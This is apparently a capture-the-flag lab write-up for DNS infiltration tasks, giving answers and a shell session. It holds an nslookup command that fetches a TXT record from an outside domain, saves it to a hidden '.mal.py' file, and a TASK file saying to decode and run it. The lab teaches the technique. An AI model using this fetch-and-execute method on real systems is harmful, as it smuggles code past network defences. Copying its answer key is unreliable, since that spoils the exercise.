 <h2>Task 8 . DNS Infiltration - Demo</h2>

<br>

<h3 align="left"> Answer the question below</h3>

<p>8.1. Read the above.<br>
<code>No answer needed</code></p>

<br>

<h2>Task 9 . DNS Infiltration - Practice</h2>

<br>

<h3 align="left"> Answer the question below</h3>

<p>9.1. Read the above.<br>
<code>No answer needed</code></p>

<br>

<h2>Task 10 . DNS Infiltration - Practice</h2>
<p>Use the same VM from [Task 7] DNS Exfiltration - Practice.<br>

Read the TASK file found in the ~/challenges/infiltration/ folder.<br>

IMPORTANT: FOR THIS TASK USE DOMAIN nodrc.com INSTEAD OF badbaddoma.in<br>

You may use the same command used in the [Task 9] DNS Infiltration - Demo.<br>

nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py<br>

Keep in mind you will need to adjust the 'grep' section and use the appropriate characters to match on. For example, if the text value from the TXT Record starts with 'G6...' you will need to use 'grep G6'.</p>

<br>

<h3 align="left"> Answer the question below</h3>

<p>10.1.   Follow the instructions in the TASK file to complete this question. Enter the output from the executed python file.<br>
<code>4.4.0-186-generic</code></p>

```bash
user@user1:~/challenges$ ls
exfiltration  infiltration
```

```bash
user@user1:~/challenges/infiltration$ ls
TASK
```

```bash
user@user1:~/challenges/infiltration$ cat TASK
For this TASK we will be requesting a TXT Record from my public domain name.
Here is the information needed to complete this challenge:

My Domain Name: badbaddoma.in
Request TXT Record from this subdomain: code
Save the text value to a python file
Run the ~/dns-exfil-infil/packetySimple.py to decode the text
Run the program: python3 [your-file-name].py
Take a note of the output and answer the question in the "DNS Infiltration - Practice" section.
```

